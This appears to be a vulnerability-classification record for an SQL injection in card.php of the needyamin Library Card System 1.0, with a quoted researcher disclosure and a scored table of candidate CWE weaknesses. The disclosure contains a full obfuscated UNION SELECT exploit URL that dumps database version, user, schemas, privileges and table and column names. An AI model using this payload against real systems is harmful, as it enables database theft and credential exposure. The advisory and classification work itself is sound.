 ## Vulnerability Description
A vulnerability was found in needyamin Library Card System 1.0. It has been rated as critical. Affected by this issue is some unknown functionality of the file card.php. The manipulation of the argument id leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. The vendor was contacted early about this disclosure but did not respond in any way.

### Vulnerability Description Key Phrases
- **component:** card.php
- **vector:** manipulation of id argument
- **weakness:** **sql injection, SQL injection vulnerability**
- **product:** needyamin Library Card System
- **version:** 1

## CVE Reference Links Content Summary
```
Title of the Vulnerability:   Needyamin | Library-Card-System 1.0 | card.php?id= SQL Injection | Found By Maloy Roy Orko
Vulnerability Class: SQL Injection
Product Name: Library-Card-System
Vendor: https://github.com/needyamin/
Vulnerable Product Link: https://github.com/needyamin/Library-Card-System/
Technical Details & Description: The application source code is coded in a way which allows SQL Injection. This leads into mass user data in risk and database leaks can be happened by hackers too and admin panel credentials were in risk too.
Observation & Exploitation:
Vulnerable Parameter: card.php?id=
Exploit:  http://192.168.0.100:8080/libb/card.php?id=40'AND+0+UNION+SELECT+1,2,3,4,5,6,/\*!50000cOncat/\*\*Darknet-Haxor\*\*/\*/(0x223e273e3c2f7469746c653e,0x3c703e3c62723e3c6120687265663d2223223e3c696d67207469746c653d224841584f5222207372633d2268747470733a2f2f312e62702e626c6f677370b702f2d756939795f376b6a5a51512f5836356f51356d4d5a34492f41414141414141414144412f45374e7a42316e686270516e314a316d4e474f58335a783857744a537250354177434c63424741735948512f733332302f32303230313131335f3137303032382e706e6722206865696768743d22313530222077696474683d2231353022/3e3c2f613e3c2f703e3c62723e3c666f6e7420636f6c6f723d22726564223e3c623e496e6a656374656420627920,0x4d616c6f7920526f79204f726b6f,0x3c2f623e3c2f666f6e743e3c62723e3c62723e,0x3c666f6e7420636f6c6f723d22626c7565223e,0x56455253494f4e3a3a20,/\*!50000VerSiOn/\*\*Darknet-Haxor\*\*/\*/(),0x3c62723e,0x555345523a3a20,/\*!50000UsEr/\*\*Darknet-Haxor\*\*/\*/(),0x3c62723e,0x44415441424153453a3a20,/\*!50000DaTabaSe/\*\*Darknet-Haxor\*\*/\*/(),0x3c62723e,0x3c62723e,0x544f54414c2044415441424153453a3a20,0x3c62723e,(SeLECT(@w)/\*!50000FrOM/\*\*Darknet-Haxor\*\*/\*/(/\*!50000SeLECT/\*\*Darknet-Haxor\*\*/\*/(@w:=0x00) ,(SeLECT(@w)/\*!50000FrOM/\*\*Darknet-Haxor\*\*/\*/(/\*!50000InFOrMATIoN\_SChEmA/\*\*Darknet-Haxor\*\*/\*/.SCheMaTA)/\*!50000WhErE/\*\*Darknet-Haxor\*\*/\*/(@w)IN(@w:=/\*!50000CoNCaT/\*\*Darknet-Haxor\*\*/\*/(0x20,@w,0x3c666f6e7420636f6c6f723d22726564223e2d2d2d2d2d2d3e203c2f666f6e743e,/\*!50000sCheMa\_NaMe/\*\*Darknet-Haxor\*\*/\*/,0x3c62723e))))w),0x3c62723e,0x3c62723e,0x555345522050524956494c4547453a3a20,0x3c62723e,(SeLECT(@z)/\*!50000FrOM/\*\*Darknet-Haxor\*\*/\*/(/\*!50000SeLECT/\*\*Darknet-Haxor\*\*/\*/(@z:=0x00) ,(SeLECT(@z)/\*!50000FrOM/\*\*Darknet-Haxor\*\*/\*/(/\*!50000INFOrmATiON\_SChEmA/\*\*Darknet-Haxor\*\*/\*/.UsER\_PRIViLEgES)/\*!50000WhERE/\*\*Darknet-Haxor\*\*/\*/(@z)IN(@z:=/\*!50000CoNCaT/\*\*Darknet-Haxor\*\*/\*/(0x20,@z,0x3c666f6e7420636f6c6f723d22726564223e2d2d2d2d2d2d3e203c2f666f6e743e,GrANtEE,0x202d3e20,Is\_gRANTaBLE,0x3c62723e))))z),0x3c2f666f6e743e,0x3c62723e,0x3c62723e,0x3c666f6e7420636f6c6f723d22696e6469676f223e3c2d2d2d204441524b4e4554202d204841584f52202d2d2d3e3c2f666f6e743e3c62723e,(selEct(@x)/\*!50000fRom/\*\*Darknet-Haxor\*\*/\*/(/\*!50000sElect/\*\*Darknet-Haxor\*\*/\*/(@x:=0x00),(sElect(0)/\*!From/\*\*Darknet-Haxor\*\*/\*/(/\*!50000inforMation\_schEma.coLuMns/\*\*Darknet-Haxor\*\*/\*/)/\*!50000Where/\*\*Darknet-Haxor\*\*/\*/(taBle\_schema=/\*!50000DatAbase/\*\*Darknet-Haxor\*/\*/())and(0x00)in(@x:=/\*!50000coNcat/\*\*Darknet-Haxor\*\*/\*/(@x,0x3c62723e,0x3c666f6e7420636f6c6f723d22726564223e2d2d3e203c2f666f6e743e,0x3c666f6e7420636f6c6f723d22677265656e223e,/\*!50000tAble\_naMe/\*\*Darknet-Haxor\*\*/\*/,0x3c666f6e7420636f6c6f723d22726564223e203a3a203c666f6e7420636f6c6f723d22677265656e223e,/\*!50000colUmn\_naMe/\*\*Darknet-Haxor\*\*/\*/))))x)),8,9,10,11,12,13--+
Impact of exploitation:  mass user data in risk and database leaks can be happened by hackers too and admin panel credentials were in risk too.
```

## Retriever Results

### Top Combined Results

| Rank | CWE ID | Name | Abstraction | Usage  | Retrievers | Individual Scores |
|------|--------|------|-------------|-------|------------|-------------------|
| 1 | 89 | Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') | Base | Allowed | alternate_terms | 1.000 |
| 2 | 79 | Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') | Base | Allowed | sparse | 0.473 |
| 3 | 434 | Unrestricted Upload of File with Dangerous Type | Base | Allowed | sparse | 0.400 |
| 4 | 1336 | Improper Neutralization of Special Elements Used in a Template Engine | Base | Allowed | sparse | 0.392 |
| 5 | 117 | Improper Output Neutralization for Logs | Base | Allowed | sparse | 0.392 |
| 6 | 306 | Missing Authentication for Critical Function | Base | Allowed | sparse | 0.378 |
| 7 | 352 | Cross-Site Request Forgery (CSRF) | Compound | Allowed | sparse | 0.373 |
| 8 | 502 | Deserialization of Untrusted Data | Base | Allowed | sparse | 0.371 |
| 9 | 639 | Authorization Bypass Through User-Controlled Key | Base | Allowed | dense | 0.561 |
| 10 | 93 | Improper Neutralization of CRLF Sequences ('CRLF Injection') | Base | Allowed | graph | 0.002 |



# Complete CWE Specifications

CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')

CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')

CWE-434: Unrestricted Upload of File with Dangerous Type

CWE-1336: Improper Neutralization of Special Elements Used in a Template Engine

CWE-117: Improper Output Neutralization for Logs

CWE-306: Missing Authentication for Critical Function

CWE-352: Cross-Site Request Forgery (CSRF)

CWE-502: Deserialization of Untrusted Data

CWE-639: Authorization Bypass Through User-Controlled Key

CWE-93: Improper Neutralization of CRLF Sequences ('CRLF Injection')